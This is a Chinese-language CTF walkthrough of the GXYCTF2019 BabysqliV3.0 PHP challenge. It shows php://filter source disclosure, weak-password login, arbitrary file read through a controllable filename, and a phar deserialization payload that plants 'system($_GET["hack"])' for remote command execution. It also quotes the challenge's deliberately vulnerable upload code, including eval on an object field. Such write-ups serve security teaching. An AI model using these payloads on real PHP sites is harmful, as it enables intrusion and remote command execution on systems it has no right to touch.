





# GXYCTF2019-BabysqliV3.0

参考博客：https://blog.csdn.net/2401_86760082/article/details/145358326

首先打开网页是一个登录界面。



先尝试用万能密码登录，但是当输入带符号的用户名时会提示用户不存在。

尝试使用弱口令密码爆破：

用户名：admin

密码：password

成功登录之后发现是一个文件上传的页面。



尝试上传一句话木马发现回被转成了文本，并且把路径给了我们。



可以看到url传参里有?file=upload，猜测这里存在文件包含，尝试使用伪协议配合文件包含漏洞读取源码。

构造伪协议。

home.php

```
?file=php://filter/convert.base64-encode/resource=home
```

upload.php

```
?file=php://filter/convert.base64-encode/resource=upload
```

利用伪协议得到home.php和upload.php，需要先进行base64解码

home.php

```
<?php
session_start();
echo "<meta http-equiv=\"Content-Type\" content=\"text/html; charset=utf-8\" /> <title>Home</title>";
error_reporting(0);
if(isset($_SESSION['user'])){
	if(isset($_GET['file'])){
		if(preg_match("/.?f.?l.?a.?g.?/i", $_GET['file'])){
			die("hacker!");
		}
		else{
			if(preg_match("/home$/i", $_GET['file']) or preg_match("/upload$/i", $_GET['file'])){
				$file = $_GET['file'].".php";
			}
			else{
				$file = $_GET['file'].".fxxkyou!";
			}
			echo "当前引用的是 ".$file;
			require $file;
		}
		
	}
	else{
		die("no permission!");
	}
}
?>
```

upload.php

```
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" /> 
 
<form action="" method="post" enctype="multipart/form-data">
	上传文件
	<input type="file" name="file" />
	<input type="submit" name="submit" value="上传" />
</form>
 
<?php
error_reporting(0);
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
	
 
	function __construct(){
		$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
		$ext = ".txt";
		@mkdir($sandbox, 0777, true);
		if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
			$this->Filename = $_GET['name'];
		}
		else{
			$this->Filename = $sandbox.$_SESSION['user'].$ext;
		}
 
		$this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
		$this->token = $_SESSION['user'];
	}
 
	function upload($file){
		global $sandbox;
		global $ext;
 
		if(preg_match("[^a-z0-9]", $this->Filename)){
			$this->cmd = "die('illegal filename!');";
		}
		else{
			if($file['size'] > 1024){
				$this->cmd = "die('you are too big (′▽`〃)');";
			}
			else{
				$this->cmd = "move_uploaded_file('".$file['tmp_name']."', '" . $this->Filename . "');";
			}
		}
	}
 
	function __toString(){
		global $sandbox;
		global $ext;
		// return $sandbox.$this->Filename.$ext;
		return $this->Filename;
	}
 
	function __destruct(){
		if($this->token != $_SESSION['user']){
			$this->cmd = "die('check token falied!');";
		}
		eval($this->cmd);
	}
}
 
if(isset($_FILES['file'])) {
	$uploader = new Uploader();
	$uploader->upload($_FILES["file"]);
	if(@file_get_contents($uploader)){
		echo "下面是你上传的文件：<br>".$uploader."<br>";
		echo file_get_contents($uploader);
	}
}
 
?>
```

两种解法。

## 解法一 直接读取flag

重点代码

```
if(isset($_FILES['file'])) {
	$uploader = new Uploader();
	$uploader->upload($_FILES["file"]);
	if(@file_get_contents($uploader)){
		echo "下面是你上传的文件：<br>".$uploader."<br>";
		echo file_get_contents($uploader);
	}
}
```

这里有file_get_contents函数，而$uploader是一个Uploader类的对象，当被当做字符串调用时会触发toString魔术方法，输出文件名。

```
	function __toString(){
		global $sandbox;
		global $ext;
		// return $sandbox.$this->Filename.$ext;
		return $this->Filename;
	}
```

而文件名可以通过GET传参，只要不包含不包含特定的危险字符串（如 data://、filter://、php:// 或 .），然后就会赋值给filename

```
	function __construct(){
		$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
		$ext = ".txt";
		@mkdir($sandbox, 0777, true);
		if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
			$this->Filename = $_GET['name'];
		}
		else{
			$this->Filename = $sandbox.$_SESSION['user'].$ext;
		}
 
		$this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
		$this->token = $_SESSION['user'];
	}
```

所以我们只需要上传一个符合规定的文件，然后修改url

```
url/home.php?file=upload&name=/var/www/html/flag.php
```

利用bp抓包拿到flag



## 解法二 phar反序列化

```
<?php
error_reporting(0);
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
	
 
	function __construct(){
		$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
		$ext = ".txt";
		@mkdir($sandbox, 0777, true);
		if(isset($_GET['name']) and !preg_match("/data:\/\/ | filter:\/\/ | php:\/\/ | \./i", $_GET['name'])){
			$this->Filename = $_GET['name'];
		}
		else{
			$this->Filename = $sandbox.$_SESSION['user'].$ext;
		}
 
		$this->cmd = "echo '<br><br>Master, I want to study rizhan!<br><br>';";
		$this->token = $_SESSION['user'];
	}
 
	function upload($file){
		global $sandbox;
		global $ext;
 
		if(preg_match("[^a-z0-9]", $this->Filename)){
			$this->cmd = "die('illegal filename!');";
		}
		else{
			if($file['size'] > 1024){
				$this->cmd = "die('you are too big (′▽`〃)');";
			}
			else{
				$this->cmd = "move_uploaded_file('".$file['tmp_name']."', '" . $this->Filename . "');";
			}
		}
	}
 
	function __toString(){
		global $sandbox;
		global $ext;
		// return $sandbox.$this->Filename.$ext;
		return $this->Filename;
	}
 
	function __destruct(){
		if($this->token != $_SESSION['user']){
			$this->cmd = "die('check token falied!');";
		}
		eval($this->cmd);
	}
}
 
if(isset($_FILES['file'])) {
	$uploader = new Uploader();
	$uploader->upload($_FILES["file"]);
	if(@file_get_contents($uploader)){
		echo "下面是你上传的文件：<br>".$uploader."<br>";
		echo file_get_contents($uploader);
	}
}
 
?>
```

**反序列化：_destruct：销毁执行函数**

$this->Filename = $sandbox.$_SESSION['user'].$ext;

eval($this->cmd);

**文件读取：**

echo file_get_contents($uploader);

**利用点：**

eval($this->cmd);

echo file_get_contents($uploader);

cmd=获取flag命令或者写入一句话木马命令

echo file_get_contents($uploader)：

file_get_contents($uploader)读取文件：

echo：写入

**文件：phar.php**

```
<?php


class Uploader{
		public $Filename = 'aaa';
		//public $cmd ='echo phpinfo();';//可先用此测试
		public $cmd ='echo system($_GET["hack"]);';//传递一个可控hack参数
		public $token ='GXY9834eb59bc1f28aec81f3e7e745472aa';//先上串一个合法文件得到session['user']
		
}

@unlink("demo.phar");
$phar = new Phar("demo.phar");//后缀名必须为phar
$phar->startBuffering();
$phar->setStub("GIF8a<?php __HALT_COMPILER();?>");
$o    = new Uploader();
$phar -> setMetadata($o);//将自定义的meta-data存入manifest
$phar -> addFromString("text.txt","test");//添加要压缩的文件
//签名自动计算
$phar -> stopBuffering();

?>
```

流程:

```
1.php执行文件->phar
2.上传文件保存
3.phar读取此文件序列化文件
4.定义uploader：
5.filename  token 执行_destruct  ---------$this-cmd->$cmd->echo system($_GET["hack"])
6.hack=ls
7.hack=cat flag
```

上传成功后的路径

```
/var/www/html/uploads/f328ed2b4f583b5040837b9b1e6478d9/GXY9834eb59bc1f28aec81f3e7e745472aa.txt
```

由这行代码可得`$this->Filename = $sandbox.$_SESSION['user'].$ext;`
`session['user'=GXY9834eb59bc1f28aec81f3e7e745472aa`

然后点上传抓包，修改为。

```
/home.php?file=upload&name=phar:///var/www/html/uploads/f328ed2b4f583b5040837b9b1e6478d9/GXY9834eb59bc1f28aec81f3e7e745472aa.txt&hack=ls
```



成功命令执行并且回显。

将hack=ls改成hack=cat%20flag.php即可拿到flag


